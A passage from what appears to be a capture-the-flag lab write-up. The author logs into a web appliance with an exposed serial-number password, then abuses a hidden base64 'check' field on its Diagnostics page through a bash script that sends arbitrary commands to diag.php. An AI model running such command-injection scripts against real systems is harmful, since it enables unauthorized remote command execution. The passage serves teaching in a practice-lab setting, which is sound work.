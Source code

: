 
What do you know! The serial number is exposed and we manage to log in with credentials (`admin:NET_45JDX23`),


{% include image.html image_alt="328e9162.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/328e9162.png" %}


Holy cow!

## Low-Privilege Shell

While I was checking out the pages, I chanced upon the **Diagnostics** page. It allows built-in checks and this is how it looks like.


{% include image.html image_alt="54c15bf2.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/54c15bf2.png" %}


Doesn't the output looks like the output of `ps`? There's a hidden input field that's submitted along with the form whenever the button **Verify status** is clicked.


{% include image.html image_alt="e4d923a2.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/e4d923a2.png" %}


The value to the input field `check` is a `base64`-encoded `quagga`.


{% include image.html image_alt="939c5bd9.png" image_src="/93ab5c98-ba29-4a88-b893-31e8b32ce9ef/939c5bd9.png" %}


Hmm. Something funky is going on here.

With that in mind, I wrote a bash script to investigate what's going with the **Diagnostics** page.

<div class="filename"><span>diag.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.105
SERIAL=NET_45JDX23
ECHO="$(echo $@ | base64)"

# login
curl -c cookie \
     -d "username=admin&password=$SERIAL" \
     http://$HOST/

# prettify output
curl -s \
     -b cookie \
     --data-urlencode "check=$ECHO" \
     http://$HOST/diag.php \
| xmllint --xpath "//p" --recover - 2>/dev/null \
| sed -r -e 's/></>\n</g' \
| sed -r -e 's/^<p>//' -e 's/<\/p>$//' -e '1d'

echo

rm -f cookie
```
